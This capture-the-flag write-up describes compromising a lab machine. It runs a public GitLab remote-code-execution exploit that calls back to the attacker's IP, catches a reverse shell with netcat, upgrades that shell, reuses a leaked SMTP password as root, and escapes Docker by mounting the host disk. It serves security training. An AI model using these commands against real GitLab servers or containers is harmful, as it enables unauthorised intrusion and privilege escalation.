








> Cool box, maybe too easy for a medium? Got reverse shell in minutes, but stuck for root's password for hours 😅

## TL;DR

Gitlab RCE, get reverse shell. Privesc with cleartext root password, escape Docker to own the box.

## Footholds

### nmap

```
Starting Nmap 7.80 ( https://nmap.org ) at 2021-03-14 16:00 UTC
Nmap scan report for 10.10.10.220
Host is up (0.035s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://10.10.10.220:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.36 seconds
```

We get an NGINX service running on port `5080`, and we know there is a GitLab on it. Let's check it out!

## Entrypoint



First thing I did was creating an account to see what's up with this GitLab. Unfortunately, there is no open projects we can mess with:



A common reflex here is to check the version of the service, let's go to `/help`:



This seems very interesting for us! What do we have for this version?



Well, we can see there are a lot of exploits in the wild. Let's use the first we find: https://github.com/dotPY-hax/gitlab_RCE

```sh
python gitlab_rce.py http://ready.htb:5080 10.10.14.28
```

We follow the instructions, and create a listener with netcat:

```
nc -vlnp 42069 
Connection from 10.10.10.220:39478
bash: cannot set terminal process group (509): Inappropriate ioctl for device
bash: no job control in this shell
git@gitlab:~/gitlab-rails/working$
```

And we got a reverse shell!

## User

Very simple user here:

```
git@gitlab:~$ cat /home/dude/user.txt
```

### Upgrade shell

We want a good shell here:

```
git@gitlab:~$ python3 -c 'import pty;pty.spawn("/bin/bash")'
^Z
ninja@null $ stty raw -echo; fg
git@gitlab:~$
```



We want to get root now.

## Root

The classical privesc enumerators, like `linenum`, `linpeas` or `lse` are telling us we are in a Docker container. We will firstly try to get root in the container in order to escape from it later.

### Get root in container

Running the enumeration scripts, we get some passwords on the system:



Of course, there is no way a GitLab SMTP password could be root's as well, right?




### Escape the container

Now that we are root in the container, it is pretty easy to escape:

```
mkdir /tmp/cheh
mount /dev/sda2 /tmp/cheh
ls /tmp/cheh
cat /tmp/cheh/root/root.txt
```



Reference: https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#i-own-root


